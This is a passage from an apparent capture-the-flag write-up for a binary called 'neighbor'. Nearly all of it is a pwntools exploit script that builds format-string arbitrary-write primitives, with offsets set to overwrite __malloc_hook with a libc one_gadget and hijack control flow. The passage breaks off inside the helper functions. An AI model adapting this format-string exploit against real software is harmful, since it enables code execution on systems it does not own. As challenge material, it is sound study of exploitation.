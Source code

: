 ## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
import sys, os

DEBUG = True
BINARY = "neighbor"
LIBRARY = "libc-2.23.so"

code_base = 0x0000555555400000
rsp = 0xb0
malloc_hook_offset = 0x3c4b10
one_gadget_offset = 0xf1247
bp = {
    'call_8d0' : code_base + 0x95D,
    'fgets' : code_base + 0x8FA,
    'fprintf' : code_base + 0x921,
}

gs = f'''
b *{bp['call_8d0']}
b *{bp['fprintf']}
'''
context.terminal = ['tmux', 'splitw', '-hf']

def arbitrary_write(s, addr, value):
    write_primitive(s, addr, value & 0xffff)
    write_primitive(s, addr + 2, (value & 0xffff0000) >> 16)
    write_primitive(s, addr + 4, (value & 0xffff00000000) >> 32)
    write_primitive(s, addr + 6, (value & 0xffff000000000000) >> 48)

def write_primitive(s, addr, value):
    free_space = rsp + 0x10
    stack_control(s, free_space, addr & 0xffff)
    stack_control(s, free_space + 2, (addr & 0xffff0000) >> 16)
    stack_control(s, free_space + 4, (addr & 0xffff00000000) >> 32)
    stack_control(s, free_space + 6, (addr & 0xffff000000000000) >> 48)

    payload = f"%{value}c".encode()
    payload += b"%7$hn"
    s.sendline(payload)
    s.recv(0xffff)
    sleep(1)

def stack_control(s, stack, value, stderr=False):
    if value == 0:
        return
    log.info(f"writing {hex(value)} to {hex(stack)}")
    payload = f"%{stack}c".encode()
    payload += b"%9$hhn"
    s.sendline(payload)
    if stderr == False:
        s.recv(0xffff)
    sleep(1)

    payload = f"%{value}c".encode()
    payload += b"%11$hn"
    s.sendline(payload)
    if stderr == False:
        s.recv(0xffff)
```